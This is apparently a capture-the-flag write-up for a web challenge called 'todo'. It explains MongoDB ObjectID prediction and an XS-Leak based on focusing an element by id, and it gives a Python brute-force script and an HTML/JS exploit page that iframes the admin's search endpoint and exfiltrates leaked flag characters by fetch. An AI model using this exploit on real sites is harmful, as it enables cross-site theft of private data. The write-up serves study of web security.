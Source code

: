 # todo

TLDR;

Mongo ObjectID predict exploit + XS LEAK using the ID attribute technique (https://xsleaks.dev/docs/attacks/id-attribute/)

# Mongo ObjectID predict


First goal is to bypass the login. When going to /api/notes it will show "_id", the structure of the ID should hint toward the mongodb predict exploit which would allow us leak the dev's note with his password.

However we wont be able to leak the admin's note since it is manually changed to a long hex char:

```js

// init.js 

const secret_id = crypto.randomBytes(64).toString("hex");
const todo = db.getSiblingDB('todo');

todo.users.insertOne({ username: "admin@spark.tech", password: process.env.ADMIN_PASSWORD });
todo.users.insertOne({ username: "dev@spark.tech", password: process.env.DEV_PASSWORD });


FLAG = process.env.FLAG

todo.notes.insertOne(
    {
        _id: secret_id,
        title: "flag",
        owner: "admin@spark.tech",
        content: FLAG,
        protected: 1
    });

```

# XS-Leak: ID Attribute

The next part is how can we leak the admin's flag?

Well, we have a search functionality and we can notice that once a note was found in `/api/search` it will be put it inside an input with an id attribute `id=note`

```html
<div class="box">
    <div class="w-1/2">
        <h1>Found!</h1>
        <h1>Edit:</h2>
		<!-- TODO: implement edit functionality in /api/search -->
            <input id="note" value="placeholder note">
	</div>
</div>
            
```

Luckily the input tag is focusable! which means we can do something like `http://localhost:3000/search?input=Spark#note` which would allow us to ***focus*** on the element with id="note".

***Note that this is only possible because it is a focusable element!
(read more about this technique here: https://xsleaks.dev/docs/attacks/id-attribute/)***

With this we can try different chars to get the flag! easy.

however we still dont have the admin account and the `/api/search` endpoint is only accessible by the admin but since this website doesnt include any framing protection headers we can iframe it and send it the admin to do the searching for us.

# Solution

```python
import requests
from mongo_objectid_predict import predict

id = input("id: ")
chall = "http://localhost:3000"

for objectid in predict(id):
    response = requests.get(chall+'/note/%s' % objectid)
    if "password" in response.text:
        print(objectid)

```

```html

<html>
<body>
  <script>
    
    const sleep = (ms) => {
      return new Promise(resolve => setTimeout(resolve, ms));
    }

    var flag = "SparkCTF{"
    async function leak() {
      while (true) {
        for (let c of "abcdefghijklmnopqrstuvwxyz012345789_{}") {
        
          // create iframe and reset found status
          let ifr = document.createElement('iframe');
          fetch("/?c=" + flag + c)
          found = false;
          
          await sleep(1000)
          
          // note found
          document.body.onblur = async () => {
            flag += c
            fetch("/?leaked=" + flag)
            console.log("Found!: " + flag)
            found = true
            // reset onblur
            document.body.onblur = ''
            await sleep(1000)
            ifr.remove()
          }
          
          // note not found
          // waiting 1500 ms so chrome doesnt crash 
          setTimeout(() => {
            document.body.onblur = ''
            ifr.remove()
          }, 1500)

          console.log("Trying: ", "http://127.0.0.1:3000/api/search?input=" + encodeURIComponent(flag + c) + "#note")

          ifr.src = "http://127.0.0.1:3000/api/search?input=" + encodeURIComponent(flag + c) + "#note";
          document.body.appendChild(ifr);
          
          // if note found just skip to next char
          if (found) {
            console.log(window.onblur)
            ifr.remove()
            break;
          }
        }
      }
    }

    leak()
  </script>
</body>
<html>


```